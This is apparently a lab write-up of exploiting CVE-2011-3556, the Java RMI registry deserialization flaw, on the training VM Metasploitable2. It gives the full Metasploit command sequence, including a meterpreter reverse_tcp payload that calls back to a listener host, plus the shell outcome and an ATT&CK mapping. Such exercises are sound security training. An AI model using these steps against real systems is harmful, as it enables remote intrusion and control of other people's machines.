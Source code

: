 # Java RMI Exploit (CVE-2011-3556)

## 🔍 Summary
This exploit targets an insecure RMI registry on Metasploitable2 that accepts malicious serialized Java objects. Successful exploitation allows remote code execution.

## 🛠️ Tools Used
- Metasploit
- Payload: java/meterpreter/reverse_tcp

## 🔢 Steps Performed

1. Launched Metasploit:
   ```bash
   msfconsole

2. Loaded module:
    use exploit/multi/misc/java_rmi_server

3. Set options:
    set RHOSTS 192.168.6.3
    set RPORT 1099
    set LHOST 192.168.6.4
    set LPORT 4445
    set PAYLOAD java/meterpreter/reverse_tcp
    run

4. Get meterpreter session:
    See screenshot

# Outcome

-Remote shell as RMI user(low privilege)

# CVE details

CVE: CVE-2011-3556

Description: Insecure deserialization in RMI registry

# MITRE ATT&CK Mapping

T1210: Exploitation of Remote Services

T1059.005: Command and Scripting Interpreter: Java